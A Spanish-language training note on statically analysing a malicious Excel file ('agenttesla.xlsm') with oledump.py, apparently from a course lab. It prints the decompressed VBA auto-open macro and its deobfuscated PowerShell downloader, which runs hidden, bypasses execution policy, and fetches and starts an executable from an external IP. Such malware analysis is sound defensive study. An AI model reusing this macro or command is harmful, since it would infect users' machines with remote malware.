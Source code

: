 ```yaml
---
layout: apunte
title: "2. File Analysis"
---
```


En esta tarea usaremos `oledump.py` para realizar análisis estático de un documento de Excel potencialmente malicioso.

`Oledump.py` es una herramienta que analiizza archivos **OLE2**, comunmente llamado **Structured Storage / Compound File** Binary Fotmat. **OLE** significa **Object Linking and Embedding**, una tecnología de propiedad desarrollada por Microsoft. Los archivos OLE2 son típicamente usados para almacenar múltiples tipos de información, como documentos, hojas de cálculo y presentaciones en un mismo archivo. Esta herramienta es útil para extraer y examinar los contenidos de los archivos OLE2, haciéndola valiosa para análisis forense.

Usando la máquina virtual **REMnux VM** en la tarea, navega hasta el directorio `/home/ubuntu/Desktop/tasks/agenttesla/`. Nuestro archivo objetivo es `agenttesla.xlsm` Ejecuta el comando `oledump.py agenttesla.xlsm`. Verás lo siguiente:

```shell
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm 
A: xl/vbaProject.bin
A1:       468 'PROJECT'
A2:        62 'PROJECTwm'
A3: m     169 'VBA/Sheet1'
A4: M     688 'VBA/ThisWorkbook'
A5:         7 'VBA/_VBA_PROJECT'
A6:       209 'VBA/dir'
```

Basado en el análisis de archivo de OleDump, un script VBA puede estar incrustado en el documento y encontrado dentro de `xl/vbaProject.bin`. Por eso, oledump le dará un índice de A, aunque puede ser diferente a veces. El índice A + Números se llama **data streams**.

Ahora deberíamos fijarnos en la data stream con la letra M. Esto significa que hay una **Macro**, y puedes querer comprobar este data stream, `VBA/ThisWorkBook`.

Vamos a comprobarlo. Ejecutaremos el comando `oledump.py agenttesla.xlsm -s 4`. Este comando correrá oledump y mirará en los actuales data stream usando el parámetro `-s`, que es la forma corta de `-select`.

```shell
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4

00000000: 01 AC B2 00 41 74 74 72  69 62 75 74 00 65 20 56  ....Attribut.e V
00000010: 42 5F 4E 61 6D 00 65 20  3D 20 22 54 68 69 00 73  B_Nam.e = "Thi.s
00000020: 57 6F 72 6B 62 6F 6F 10  6B 22 0D 0A 0A 8C 42 61  Workboo.k"....Ba
00000030: 73 01 02 8C 30 7B 30 30  30 32 30 50 38 31 39 2D  s...0{00020P819-
00000040: 00 10 30 03 08 43 23 05  12 03 00 34 36 7D 0D 7C  ..0..C#....46}.|
00000050: 47 6C 10 6F 62 61 6C 01  D0 53 70 61 82 63 01 92  Gl.obal..Spa.c..
00000060: 46 61 6C 73 65 0C 25 00  43 72 65 61 74 61 62 6C  False.%.Creatabl
00000070: 01 15 1F 50 72 65 64 65  63 6C 12 61 00 06 49 64  ...Predecl.a..Id
00000080: 00 23 54 72 75 81 0D 22  45 78 70 6F 73 65 01 1C  .#Tru.."Expose..
00000090: 01 11 40 54 65 6D 70 6C  61 74 40 65 44 65 72 69  ..@Templat@eDeri
000000A0: 76 96 12 43 80 75 73 74  6F 6D 69 7A 84 44 0D 83  v..C.ustomiz.D..
000000B0: 32 50 80 18 80 1C 20 53  75 62 02 20 05 92 5F 4F  2P.... Sub. .._O
000000C0: 70 65 6E 28 00 29 0D 0A  44 69 6D 20 53 00 71 74  pen(.)..Dim S.qt
000000D0: 6E 65 77 20 41 73 04 20  53 80 25 6E 67 2C 20 73  new As. S.%ng, s
000000E0: C0 4F 75 74 70 75 74 07  09 03 14 00 4D 67 67 63  .Output.....Mggc
000000F0: 62 6E 75 61 02 64 01 0C  4F 62 6A 65 63 74 42 2C  bnua.d..ObjectB,
00000100: 07 0A 45 78 65 63 07 0C  0D 06 0A 04 2B 00 BD 5E  ..Exec......+..^
00000110: 70 2A 6F 5E 00 2A 77 2A  65 2A 72 2A 73 10 5E 5E  p*o^.*w*e*r*s.^^
00000120: 2A 68 80 04 6C 5E 2A 00  6C 2A 20 2A 5E 2D 2A 57  *h..l^*.l* *^-*W
00000130: 00 2A 69 2A 6E 2A 5E 64  2A 00 6F 2A 77 5E 2A 53  .*i*n*^d*.o*w^*S
00000140: 2A 74 A0 2A 79 2A 5E 6C  00 11 20 00 14 02 69 01  *t.*y*^l.. ...i.
00000150: 0C 64 2A 5E 65 2A 6E 2A  5E 00 08 2D 00 0B 78 41  .d*^e*n*^..-..xA
00000160: 03 63 2A 12 75 00 0A 5E  69 00 0D 6E 2A 70 40 6F  .c*.u..^i..n*p@o
00000170: 6C 5E 69 63 79 C0 07 62  00 2A 79 70 5E 5E 61 73  l^icy..b.*yp^^as
00000180: 73 20 2A 3B 2A 20 24 01  4D 46 69 0A 6C 41 12 3D  s *;* $.MFi.lA.=
00000190: C0 00 5B 2A 49 2A 80 4F  2A 2E 2A 50 2A 61 C0 0E  ..[*I*.O*.*P*a..
000001A0: 00 68 2A 5D 2A 3A 3A 47  65 1A 74 40 09 2A 83 09  .h*]*::Ge.t@.*..
000001B0: 41 79 28 29 20 40 7C 20  52 65 6E 5E C0 02 2D 00  Ay() @| Ren^..-.
000001C0: 49 74 5E 65 6D 20 2D 4E  04 65 77 42 9A 7B 20 24  It^em -N.ewB.{ $
000001D0: 5F 20 18 2D 72 65 40 62  40 82 27 74 6D 00 70 24  _ .-re@b@.'tm.p$
000001E0: 27 2C 20 27 65 78 80 65  27 20 7D 20 96 50 C1 1D  ', 'ex.e' } .P..
000001F0: 00 54 68 72 75 3B 20 49  6E 00 5E 76 6F 2A 6B 65  .Thru; In.^vo*ke
00000200: 2D 57 00 65 5E 62 52 65  2A 71 75 00 65 73 74 20  -W.e^bRe*qu.est 
00000210: 2D 55 5E 72 00 69 20 22  22 68 74 74 70 00 3A 2F  -U^r.i ""http.:/
00000220: 2F 31 39 33 2E 32 02 30  C3 00 36 37 2F 72 74 2F  /193.2.0..67/rt/
00000230: 00 44 6F 63 2D 33 37 33  37 80 31 32 32 70 64 66  .Doc-3737.122pdf
00000240: 2E 00 16 D0 22 22 20 2D  00 63 2A C1 27 07 34 02  ...."" -.c*.'.4.
00000250: 3B 80 65 2A 61 72 74 2D  50 80 72 6F 63 65 2A 73  ;.e*art-P.roce*s
00000260: 73 88 06 2B 00 B0 46 5E  52 83 2A 28 03 04 2C 20  s..+..F^R.*(.., 
00000270: 68 22 2A 22 00 01 22 C0  7D 97 08 5E 49 86 08 65  h"*"..".}..^I..e
00000280: 74 48 7C 3D 20 C2 B8 65  01 43 77 28 22 57 53 63  tH|= ..e.Cw("WSc
00000290: 72 69 00 70 74 2E 53 68  65 6C 6C EB 8E 0B C2 82  ri.pt.Shell.....
000002A0: 3D C7 03 2E 01 04 C4 18  C0 0A 08 45 6E 64 81 A3  =..........End..
```

Los resultados arriba son el dumpeo en formato hexadecimal. Hay una manera más sencilla de leerlo, para ello debemos usar el parámetro `--vbadecompress` además del comando anterior:

```shell
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4 --vbadecompress

Attribute VB_Name = "ThisWorkbook"
Attribute VB_Base = "0{00020819-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = False
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
Private Sub Workbook_Open()
Dim Sqtnew As String, sOutput As String
Dim Mggcbnuad As Object, MggcbnuadExec As Object
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
Set Mggcbnuad = CreateObject("WScript.Shell")
Set MggcbnuadExec = Mggcbnuad.Exec(Sqtnew)
```

¿Así mucho mejor no? Nuestro mayor interés está en el valor **Sqtnew**:

```shell
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
```

Copiaremos la primera parte en CyberChef y seleccionas **Find/Replace** dos veces metiendo cada una de las instrucciones. En nuestro caso la primera es cambiar "* " por "" y el segundo "^" por "".

![](/apuntes/img/Pasted image 20251029175423.png)

Veamos el output:

```shell
powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" -OutFile $TempFile; Start-Process $TempFile;"
```

- Correr `-WindowStyle` en PowerShell te permite controlar cómo la ventana de PowerShell aparece al ejecutar un script o comando. En este caso `hidden` (escondido) significa que no será visible para el usuario.
- Por defecto, PowerShell restringe la ejecución de scripts. El parámetro `-executionPolicy` permite sobreseguir esta política. El `bypass` significa que la restricción se ignora temporalmente.
- El `Invoke-WebRequest` se usa comúnmente para descargar archivos de internet.
	- El parámetro `-Uri` nos deja especificar la URL del recurso web a descargar.
	- El parámetro `-OutFile` especifica el archivo local donde el contenido descargado se guardará.
- El `Start-Process` es ussado para ejecutar el archivo descargado guardado en `$TempFile`.

Para resumirlo, cuando el documento `agenttesla.xlsm` se abre, se dispara una Macro. Esta macro contiene un script VBA. El script se ejecutará sustituyendo los caracteres necesarios en el payload y después lo ejecutará. Este payload ejecuta powershell sin que el usuario pueda ver la interfaz y descarga un archivo de internet y lo ejecuta.